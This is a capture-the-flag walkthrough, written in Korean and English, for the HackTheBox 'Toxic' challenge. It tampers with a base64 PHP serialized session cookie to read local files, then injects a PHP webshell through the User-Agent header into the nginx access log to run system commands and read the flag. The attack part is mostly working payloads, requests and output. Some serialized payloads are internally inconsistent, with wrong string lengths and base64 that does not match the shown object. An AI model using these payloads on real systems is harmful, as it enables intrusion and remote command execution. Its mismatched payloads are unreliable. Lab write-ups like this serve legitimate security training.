








# HackTheBox Walkthrough - Room: Toxic

**Target IP**: 94.237.57.115:39582  
**Difficulty**: Medium  
**Objective**: Gain access to the system by exploiting insecure object deserialization and log poisoning, and retrieve the flag.  


---

## 🧭 Initial Access & Enumeration

### 🔎 Step 1: 페이지 소스 확인

- 브라우저로 `http://94.237.57.115:39582` 접속.
- 페이지는 간단한 텍스트와 함께 PHP로 구성된 것으로 보임.
- BurpSuite로 요청을 가로채고, 쿠키 값을 확인해보면 다음과 같은 `session` 쿠키가 존재함:  
  


```
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9
```

### 🔍 Step 2: 쿠키 디코딩 및 분석

- 해당 값은 base64로 인코딩된 직렬화된 PHP 객체임.
- 디코딩:  


```php
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

→ PageModel 객체 안에 `file` 필드를 `/www/index.html` 로 설정한 상태.

### 💡 아이디어: Local File Inclusion 우회

- `PageModel` 객체 내부의 `file` 경로를 수정하여 `/var/flag` 혹은 `/etc/passwd` 등 시스템 파일을 참조해보자.

---

## 🧪 LFI 시도 및 차단 확인

### ✅ 정상 출력 (기존 쿠키):

```php
O:9:"PageModel":1:{s:4:"file";s:15:"/etc/passwd";}
```


→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=`

### ❌ 실패한 flag 시도:

```php
O:9:"PageModel":1:{s:4:"file";s:9:"/var/flag";}
```


→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czo0OiJmbGFnIjt9`

---

## 🔥 Exploitation via Log Poisoning

### 💡 아이디어

- 로그 파일을 읽을 수 있다면, 그 안에 RCE 코드를 삽입해 `cmd=` 파라미터로 실행 가능.
- Nginx의 Access 로그 파일 경로는 보통: `/var/log/nginx/access.log`

### ✅ LFI 성공

```php
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```

→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==`

이 쿠키로 요청 시 로그 내용이 HTML로 출력됨

---

## 🐚 RCE via PHP Code Injection (로그 포이즈닝)

### Step 1: 유저 에이전트(User-Agent)에 PHP 삽입

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

- 이 User-Agent는 access.log에 저장됨

### Step 2: 다시 access.log를 LFI로 열고 cmd 실행

```http
GET /?cmd=ls HTTP/1.1
Cookie: session=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```


→ 결과:

```
index.html
index.php
models
static
```

### Step 3: 상위 디렉토리 탐색

```http
GET /?cmd=ls ./../ HTTP/1.1
```

→ 결과:  


```
flag_B6HLk
```

### Step 4: 플래그 출력

```http
GET /?cmd=cat ./../flag_B6HLk HTTP/1.1
```

→ 결과:  


```
HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
```

🎉 플래그 획득 성공!

---

## 🧠 기술 요약

| 기술              | 설명                                                                 |
|-------------------|----------------------------------------------------------------------|
| Base64 디코딩      | 세션 쿠키로 전달되는 직렬화된 객체를 디코딩해 내부 구조 파악            |
| PHP Object Injection | 사용자 입력으로 PageModel 객체 내부의 파일 경로를 변경하여 LFI 시도     |
| Local File Inclusion | `file` 파라미터를 통해 access.log 파일을 불러와 원격 명령 실행 유도     |
| Log Poisoning      | `User-Agent`에 PHP 코드를 삽입 → 로그 파일을 PHP 파일처럼 실행           |
| Remote Code Execution | `cmd` 파라미터로 PHP 코드 실행 → 시스템 명령 실행                    |

---

## 🎯 최종 결과

- **플래그**: `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`
- **획득 방법**: Nginx Access Log를 통한 로그 포이즈닝 + LFI + PHP RCE
